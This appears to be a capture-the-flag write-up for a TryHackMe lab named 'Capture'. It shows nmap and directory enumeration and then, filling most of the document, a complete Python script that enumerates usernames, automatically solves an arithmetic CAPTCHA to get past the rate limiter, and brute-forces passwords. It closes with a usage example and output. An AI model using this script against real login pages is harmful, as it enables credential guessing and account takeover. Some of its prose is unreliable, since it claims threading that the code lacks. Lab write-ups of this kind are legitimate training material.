





<br>

# Web Hacking Phases


## Reconnaissance
```bash
❯ export ip=10.10.241.73
```
```bash
❯ nmap -sC -sV -p$(nmap -p- -T4 --min-rate=2000 $ip | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/, $//') $ip -oN nmap.txt
```
> output
```bash
Nmap scan report for capture.thm (10.10.241.73)
Host is up (0.42s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 60:06:fb:78:2b:ce:84:1c:2e:b5:88:ff:d5:89:fd:f4 (RSA)
|   256 2c:89:96:e8:92:ef:19:c2:46:09:d1:02:82:0e:ed:b6 (ECDSA)
|_  256 d3:c2:7a:db:54:9f:47:e3:6c:5c:6b:d4:27:40:7a:60 (ED25519)
80/tcp open  http    Werkzeug/2.2.2 Python/3.8.10
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /login
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/2.2.2 Python/3.8.10
|     Date: Sun, 08 Jun 2025 08:57:49 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.1 302 FOUND
|     Server: Werkzeug/2.2.2 Python/3.8.10
|     Date: Sun, 08 Jun 2025 08:57:41 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 199
|     Location: /login
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>Redirecting...</title>
|     <h1>Redirecting...</h1>
|     <p>You should be redirected automatically to the target URL: <a href="/login">/login</a>. If not, click the link.
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.8.10
|     Date: Sun, 08 Jun 2025 08:57:42 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, HEAD, OPTIONS
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
|_http-server-header: Werkzeug/2.2.2 Python/3.8.10
```
### Adding localhost
```bash
❯ echo "10.10.241.73 capture.thm" | sudo tee -a /etc/hosts
```
### Front-End Recon

### Web Application Enumeration
```bash
❯ lsd -al capture-1679641819217.zip
.rw-rw-r-- l0n3m4n l0n3m4n 9.6 KB Sun Jun  8 17:28:01 2025  capture-1679641819217.zip

❯ file *.zip
capture-1679641819217.zip: Zip archive data, at least v2.0 to extract, compression method=deflate

❯ unzip *.zip
Archive:  capture-1679641819217.zip
  inflating: passwords.txt           
  inflating: usernames.txt           
~/thm/capture ❯ 
```
```bash
❯ cat usernames.txt | wc -l && cat passwords.txt | wc -l
877
1567
```
```bash
❯ cat usernames.txt | head
rachel
rodney
corrine
erik
chuck
kory
trey
cornelius
bruce
wilbur
❯ cat passwords.txt | head
football
kimberly
mookie
daniel
love21
drpepper
brayan
bullet
iluvme
diosesamor
```
### Sorting user and passwd list 
```bash
❯ sort usernames.txt -o usernames.txt && sort passwords.txt -o passwords.txt 
```

### Fingerprinting Web Servers



### WAF 

- If we read carefully 
    - SecureSolaCoders has once again developed a web application. They were tired of hackers enumerating and exploiting their previous login form. They thought a Web Application Firewall (WAF) was too overkill and unnecessary, so they developed their own `rate limiter` and modified the code slightly.

<br>

**Given that the admin has configured the server with both rate limiting and CAPTCHA popups, brute-forcing the login page directly is no longer a viable option. However, I’m wondering if there’s a way around this by writing a Python3 script that can automate the process of attempting different usernames and passwords while also bypassing the rate limiter. Since the CAPTCHA is arithmetic-based, we might be able to automate solving it by extracting the relevant HTML tags, detecting the arithmetic problem, and calculating the answer programmatically.**

<br>

### Inspecting HTTP Response Headers and Sitemaps
```bash
❯ curl http://capture.thm -I
HTTP/1.1 302 FOUND
Server: Werkzeug/2.2.2 Python/3.8.10
Date: Sun, 08 Jun 2025 09:07:28 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 199
Location: /login
Connection: close
```
```bash
❯ curl http://capture.thm/login -I
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.10
Date: Sun, 08 Jun 2025 09:54:37 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1942
Connection: close
```
## Mapping and Discovery    
### Debugging Page Content

### Technology Stack Identification

### Directory and File Listings
```bash
❯ feroxbuster -u http://capture.thm -w /usr/share/seclists/Discovery/Web-Content/common.txt --scan-dir-listings
                                                                                                                                                  
200      GET      104l      222w     1942c http://capture.thm/login
302      GET        5l       22w      199c http://capture.thm/ => http://capture.thm/login
302      GET        5l       22w      199c http://capture.thm/home => http://capture.thm/login
```
## Vulnerability Analysis
```html
  <label for="usr"><b><h3>Captcha enabled</h3></b></label><br>
    221 + 13 = ?
```
## Security Testing
### 🧩 CAPTCHA Weaknesses
- Description: Simple arithmetic-based CAPTCHAs can be automated for bypass.
- Scrape the CAPTCHA question and solve it using basic arithmetic.
```py
captcha_question = "What is 3 + 4?"
answer = sum([int(i) for i in captcha_question.split() if i.isdigit()])
```
    
### 🛠️ Brute-force Login Script
> updated script
```py
import re
import requests
import logging
import argparse
import os
from termcolor import colored  
# pip install termcolor --break-system-packages

# Command line arguments
parser = argparse.ArgumentParser(description="Brute-force login for CTF capture.thm.")
parser.add_argument('-u', '--url', required=True, help="The login URL")
parser.add_argument('-U', '--usernames', default="usernames.txt", help="File containing list of usernames (default: usernames.txt)")
parser.add_argument('-P', '--passwords', default="passwords.txt", help="File containing list of passwords (default: passwords.txt)")
args = parser.parse_args()

# Setup logging
logging.basicConfig(filename="brute_force_log.txt", level=logging.INFO, format="%(asctime)s - %(levelname)s - %(message)s")

# Headers to simulate a real browser
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": args.url,
    "Connection": "close",
    "Referer": f"{args.url}/login",
    "Upgrade-Insecure-Requests": "1",
}

def calculate(num1, num2, operation):
    """Solve the CAPTCHA if present."""
    if operation == '*':
        return num1 * num2
    elif operation == '+':
        return num1 + num2
    elif operation == '-':
        return num1 - num2
    elif operation == '/':
        return num1 / num2
    else:
        raise ValueError(f"Invalid operation: {operation}")

def user_does_not_exist(response_text):
    """Check for multiple indicators of invalid username or password."""
    invalid_indicators = [
        "does not exist",
        "invalid username",
        "user not found",
        "Invalid password for user",  
        "invalid login credentials" 
    ]
    return any(phrase.lower() in response_text.lower() for phrase in invalid_indicators)

def get_captcha_answer(response_text):
    """Extract and solve CAPTCHA from the response if it exists."""
    captcha_question = re.search(r"(\d+)\s*([\+\-\*/])\s*(\d+)", response_text)
    if captcha_question:
        num1 = int(captcha_question.group(1))
        operation = captcha_question.group(2)
        num2 = int(captcha_question.group(3))
        print(colored(f"\n[*] CAPTCHA detected: {num1} {operation} {num2}", 'yellow'))
        return calculate(num1, num2, operation)
    return None

def attempt_login(username, password):
    """Attempt to log in with a username and password."""
    data = {"username": username, "password": password}
    try:
        # Send login request
        response = requests.post(args.url, headers=headers, data=data)

        # Handle CAPTCHA if present
        captcha_answer = get_captcha_answer(response.text)
        if captcha_answer:
            print(colored(f"[*] Solving CAPTCHA for {username}: {captcha_answer}", 'cyan'))
            data["captcha"] = captcha_answer
            response = requests.post(args.url, headers=headers, data=data)

        # Check for valid username (if "Invalid password for user" is present)
        if "Invalid password for user" in response.text:
            logging.info(f"Valid username found: {username}")
            print(colored(f"[+] Valid username found: {username}", 'green'))
            return username, password  # We found a valid username, return it
        
        # Handle invalid username or incorrect password
        if user_does_not_exist(response.text):
            logging.info(f"Skipping username {username} as it does not exist or incorrect password.")
            print(colored(f"[*] Skipping username {username} as it does not exist or incorrect password.", 'red'))
            return None, None  # Indicating invalid username or password

        # If login was successful
        if "does not exist" not in response.text.lower() and "captcha" not in response.text.lower() and "invalid password" not in response.text.lower():
            logging.info(f"Valid username found: {username}")
            print(colored(f"[+] Valid username found: {username}", 'green'))
            return username, password

        logging.info(f"Failed, {username}, {password}")
        print(colored(f"[-] Failed, {username}, {password}", 'red'))
        return None, None
    except requests.exceptions.RequestException as e:
        logging.error(f"Request failed for {username}/{password}: {e}")
        print(colored(f"[!] Error with {username}/{password}: {e}", 'yellow'))
        return None, None

def find_valid_username():
    """Enumerate usernames and find a valid one."""
    if not os.path.exists(args.usernames):
        print(f"[!] Error: Username file '{args.usernames}' not found.")
        return None
    
    with open(args.usernames, "r") as uf:
        usernames = uf.read().splitlines()

    for username in usernames:
        username = username.strip()  # Ensure no extra spaces or newlines
        print(f"[*] Testing username: {username}")  # Log the username for debugging
        # Try a wrong password to check if it's a valid user
        invalid_password = "invalid_password"
        valid_username, _ = attempt_login(username, invalid_password)
        if valid_username:
            return valid_username
    return None

def brute_force_password(username):
    """Brute-force the password after finding a valid username."""
    print(colored(f"[*] Brute-forcing passwords for {username}...", 'yellow'))
    
    with open(args.passwords, "r") as pf:
        passwords = pf.read().splitlines()

    for password in passwords:
        password = password.strip()

        # Testing the password attempt
        print(f"[*] Trying password: {password}")

        data = {"username": username, "password": password}
        response = requests.post(args.url, headers=headers, data=data)

        # Handle CAPTCHA if present during password brute-forcing
        captcha_answer = get_captcha_answer(response.text)
        if captcha_answer:
            data["captcha"] = captcha_answer
            response = requests.post(args.url, headers=headers, data=data)
            print(f"[*] Solving CAPTCHA for password: {password} -> {captcha_answer}")

        # Check if the login was successful
        if "does not exist" not in response.text.lower() and "captcha" not in response.text.lower() and "invalid password" not in response.text.lower():
            logging.info(f"Success, {username}, {password}")
            print(colored(f"[+] Success, {username}, {password}", 'green'))

            # Extract the flag if present
            flag_match = re.search(r'flag{.*?}', response.text, re.IGNORECASE)
            if flag_match:
                flag = flag_match.group(0)
                print(colored(f"[***] Flag Found: {flag}", 'magenta', attrs=['bold']))
            else:
                print(colored("[!] No flag found in response.", 'red'))
            return True

        logging.info(f"Failed, {username}, {password}")
        print(colored(f"[-] Failed, {username}, {password}", 'red'))

    print("[*] Brute-forcing password attempt finished.")
    return False

def main():
    """Main function to execute the brute-force process."""
    print(colored("[*] Starting brute-force attack...\n", 'yellow'))

    # Find a valid username
    valid_username = find_valid_username()
    
    if not valid_username:
        print(colored("[!] No valid username found.\n", 'red'))
        return
    
    print(colored(f"[*] Valid username found: {valid_username}.\n", 'green'))

    # Pause the script here until the user presses Enter
    input(colored("[*] Press Enter when you're ready to continue the brute-forcing of the password.\n", 'yellow'))

    print(colored(f"[*] Continuing brute-forcing for {valid_username}...\n", 'green'))

    # Brute-force passwords for the valid username
    brute_force_password(valid_username)

if __name__ == "__main__":
    main()

```

## 🎯 Core Goal

This script is designed to automate a brute-force login attack for a TryHackMe (THM)  capture challenge. It begins by identifying a valid username and, once found, proceeds to brute-force the corresponding password. Depending on internet connectivity and server response times, the process may take a significant amount of time—potentially hours. To improve performance, I integrated ThreadPoolExecutor for faster execution and enhanced the script's output with colored text for clearer and more polished feedback.

## 🔑 What It Does

- **Username Enumeration**  
  Iterates through a list of usernames and checks the server's response to determine if the username exists.

- **Password Brute-force**  
  Once a valid username is found, it tries different passwords to find a successful login and extract flag

- **CAPTCHA Solving**  
  Automatically detects and solves simple math-based CAPTCHAs (e.g., `5 + 7`, `9 * 3`) embedded in the login page.

- **Logging**  
  Logs all attempts, successes, and errors to a file named `brute_force_log.txt`.

- **Colored Terminal Output**  
  Uses `termcolor` for colored output, making it easier to track status messages visually (e.g., green for success, red for failure).

---

# 📚 Function Descriptions

### `calculate(num1, num2, operation)`

- 🧮 **Purpose:** Solves basic arithmetic operations used in CAPTCHA challenges.
- 📥 **Input:** Two integers (`num1`, `num2`) and an operation symbol (`+`, `-`, `*`, `/`).
- 📤 **Output:** Result of the arithmetic operation.
- ⚙️ **Usage:** Used to automatically solve CAPTCHA questions.

---

### `user_does_not_exist(response_text)`

- ❌ **Purpose:** Determines if the server response indicates that a username does not exist.
- 📥 **Input:** The HTTP response text.
- 📤 **Output:** Returns `True` if the response mentions the username doesn't exist; otherwise `False`.
- ⚙️ **Usage:** Used to skip invalid usernames during enumeration.

---

### `get_captcha_answer(response_text)`

- 🕵️‍♂️ **Purpose:** Detects and extracts a simple arithmetic CAPTCHA from the server response.
- 📥 **Input:** The HTTP response text.
- 📤 **Output:** The solved CAPTCHA answer (integer or float), or `None` if no CAPTCHA is detected.
- ⚙️ **Usage:** Helps to solve CAPTCHA challenges automatically before retrying login attempts.

---

### `attempt_login(username, password)`

- 🔐 **Purpose:** Attempts a login using the given username and password.
- 📥 **Input:** Username and password strings.
- 📤 **Output:** Returns the valid username and password if successful, otherwise `(None, None)`.
- ⚙️ **Details:**
  - Sends an HTTP POST request with credentials.
  - Checks for invalid username responses.
  - Handles CAPTCHA solving if required.
  - Logs success or failure for each attempt.

---

### `brute_force_password(username)`

**🔑 Purpose:**  
Brute-force passwords for a known valid username to find the correct login credentials.
- **📥 Input:** `username` (str): A valid username identified from the enumeration phase.
- **📤 Output:** Returns `True` if a correct password is found (successful login), otherwise returns `False`.

**⚙️ Details:**
- Reads the password list from the specified password file (default or user-provided).
- Iteratively attempts to log in with each password combined with the given username.
- Detects and solves CAPTCHA challenges encountered during each login attempt automatically
- Logs each login attempt's status (success or failure) to a log file and outputs progress to the console with colored messages for better readability.
- Upon successful login, extracts and displays any flag present in the server’s response.
- Stops and returns `True` immediately after finding the correct password. If no passwords succeed, returns `False` after exhausting the list.

---

### `find_valid_username()`

- 🔍 **Purpose:** Enumerates usernames to find one that exists on the target system.
- 📥 **Input:** None (reads usernames from file).
- 📤 **Output:** Returns the first valid username found, or `None` if none are valid.
- ⚙️ **Details:**
  - Reads usernames from the provided file.
  - Attempts login with each username and an empty password.
  - Skips usernames that don't exist according to server response.

---

### `main()`

- ▶️ **Purpose:** The main execution flow of the brute-force tool.
- 📝 **Steps:**
  1. Starts the attack and outputs status.
  2. Finds a valid username via enumeration.
  3. If found, attempts to brute-force the password for that username.
  4. Outputs completion message.

> ⚠️ **Disclaimer:**  
> Im not responsible for any unauthorized systems attempt, Do it at your own risk. 

---

## 📝 Example Usage

```bash
python3 bruteforce.py -U usernamess.txt -P password.txt -u http://target.thm/login
```
```bash
[*] CAPTCHA detected: 737 - 67
[*] Solving CAPTCHA for [redacted]: 670
[*] Skipping username [redacted] as it does not exist or incorrect password.

[*] CAPTCHA detected: 228 * 65
[*] Solving CAPTCHA for [redacted]: 14820
[*] Skipping username [redacted] as it does not exist or incorrect password.

[*] CAPTCHA detected: 945 - 69
[*] Solving CAPTCHA for [redacted]: 876
[+] Valid username found: [redacted]
[*] Valid username found: [redacted]. 

[*] Press Enter to continue or press Ctrl+C to stop.

[*] CAPTCHA detected: 565 + 33
[*] Solving CAPTCHA for password: [redacted] -> 598
[-] Failed, [redacted], [redacted]
[*] Trying password:[redacted] 

[*] CAPTCHA detected: 617 * 42
[*] Solving CAPTCHA for password: [redacted] -> 25914
[+] Success, [redacted], [redacted]
```
```bash
Flag.txt:
7df2eabce36f[redacted]37f77ea416
```


 
